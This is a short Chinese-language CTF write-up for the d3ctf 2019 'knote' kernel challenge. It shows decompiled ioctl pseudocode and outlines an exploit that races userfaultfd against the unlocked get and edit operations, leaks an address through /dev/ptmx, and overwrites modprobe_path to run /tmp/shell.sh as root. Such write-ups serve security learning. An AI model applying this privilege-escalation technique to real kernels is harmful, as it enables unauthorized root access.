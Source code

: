 # d3ctf knote

## IDA
```python
def ioctl(fd, cmd, arg):
	mychunk = arg
	if cmd == 0x2333:
		get()
	elif cmd == 0x1337:
		add()
	elif cmd == 0x8888:
		edit()
	elif cmd == 0x6666:
		dele()

def add():
	size = mychunk.size
	read_lock()
	idx = search_empty_buf()
	write_lock()
	mybuf[idx].ptr = kmalloc(size)
	myuf[idx].size = size
	unlock()
def get():
	idx = mychunk.idx
	copy_user_generic_unrolled(mychunk.ptr, mybuf[idx].ptr, mybuf[idx].size)
def edit():
	idx = mychunk.idx
	copy_user_generic_unrolled(mybuf[idx].ptr, mychunk.ptr, mybuf[idx].size)
def dele():
	idx = mychunk.idx
	ptr = &mybuf[idx]
	write_lock()
	free(ptr)
	ptr->ptr = 0
	ptr->size = 0
	unlock()
```

存在读写锁，然而在get和edit操作时并没有加锁

## 利用

1. 利用userfaultfd泄露地址
2. 利用userfaultfd修改`chunk→freelist`指针

```c
// 1. 信息泄露
get(0) -> userfaultfd -> dele(0) -> open("/dev/ptmx") -> return get(0)
// 2. 修改modprobe_path
edit(0) -> userfaultfd -> dele(0) -> freelist=modeprobe_path -> add(0x20)
=> edit(1, "/tmp/shell.sh")
execve(badfile)
```

在最后执行badfile时可能会报错，可以先释放一些0x20的chunk，再执行

### ref

[github](https://github.com/Ex-Origin/ctf-writeups/tree/master/d3ctf2019/pwn/knote)

[writeup](https://blog.csdn.net/seaaseesa/article/details/104650794)
